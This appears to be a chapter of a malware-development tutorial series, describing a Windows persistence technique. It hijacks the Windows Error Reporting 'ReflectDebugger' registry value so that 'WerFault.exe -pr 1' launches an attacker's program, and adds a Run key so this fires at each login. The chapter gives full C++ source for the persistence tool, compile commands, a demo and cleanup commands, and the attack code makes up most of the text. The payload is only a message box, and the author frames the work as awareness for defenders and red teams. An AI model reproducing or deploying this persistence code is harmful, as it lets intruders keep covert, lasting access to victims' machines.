




\newpage
\subsection{84. malware development: persistence - part 18. Windows Error Reporting. Simple C++ example.}

﷽

{width="80%"}    

This post is based on my own research into one of the more interesting malware persistence trick: via `WerFault.exe`.     

### WerFault.exe

While studying the behavior of Windows Error Reporting, I came across an interesting Registry path:     

`HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs`

If we run command `WerFault.exe -pr <value>` it is read `HKLM\Software\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger=<path_value>`. This command run `WerFault.exe` on mode which is called *"reflective debugger"* and it is very interesting. For example run `WerFault.exe -pr 1` and check it via Sysinternals Process Monitor:     

{width="80%"}    

{width="80%"}    

Add another filter:    

{width="80%"}    

As a result, we have a loophole for hijacking this value:     

{width="80%"}    

So, what is the trick? We can replace registry value `HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger` with our evil application, because `WerFault.exe` not only read this value but also run it. And of course we can use it for persistence.    

### practical example

For simplicity, as usually, my "evil" application is just `meow-meow` messagbox (`hack.cpp`):     

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

And then, create script which create registry key value with my "evil" app:    

```cpp
int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // malicious app
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // hijacked app
  const char* wf = "WerFault.exe -pr 1";

  // set evil app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , 
  KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, (unsigned char*)
    exe, strlen(exe));
    RegCloseKey(hkey);
  }
}
```

Also, I used [one of the classic trick](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) for persistence:     

```cpp
// startup
res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)
"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, 
  strlen(wf));
  RegCloseKey(hkey);
}
```

As a result, the final source code looks something like this (`pers.cpp`):    

```cpp
/*
pers.cpp
windows persistense via WerFault.exe
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/02/malware-pers-18.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // malicious app
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // hijacked app
  const char* wf = "WerFault.exe -pr 1";

  // set evil app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , 
  KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  // startup
  res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, 
    strlen(wf));
    RegCloseKey(hkey);
  }
  return 0;
}
```

### demo

Let's go to see everything in action. Compile our "evil" app:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

and persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Before run everything, first of all, check registry key and value:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\" /s
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger" /s
```

Run "malware" for checking correctness:     

```powershell
.\hack.exe
```

{width="80%"}    

Also, check registry keys which used for persistence logic:     

```powershell
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /s
```

{width="80%"}    

Then, run `pers.exe`:    

```powershell
.\pers.exe
```

and check Windows Error Reporting registry key again:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs" /s
```

{width="80%"}    

As you can see, key value is edited and we can check correctness via running:    

```powershell
WerFault.exe -pr 1
```

{width="80%"}    

Then, logout and login:    

{width="80%"}    

and after a few seconds our `meow-meow` messagebox is popped-up as expected:    

{width="80%"}    

You can check the properties of `hack.exe` via Process Hacker 2:     

{width="80%"}    

Also, pay attention that admin privileges required for hijacking Windows Error Reporting, but for persistence we use low-level privileges:     

```powershell
Remove-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\Windows Error 
Reporting\Hangs" -Name "ReflectDebugger"
Remove-ItemProperty -Path 
"HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "meow"
```

{width="80%"}    

{width="80%"}    

{width="80%"}    

Which can you notice if you decide to "return everything back to its place".    

So, as you can see everything is worked perfectly! =^..^=

> The next one was supposed to be 17, but it will come out together with the third part about the theft of tokens. I couldn't understand for 10 minutes why it doesn't work for me :)    

{width="80%"}    

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

[MSDN Windows Error Reporting](https://learn.microsoft.com/en-us/windows/win32/wer/windows-error-reporting)       
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[Malware persistence: part 1]((https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html))       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-11-02-malware-pers-18)     
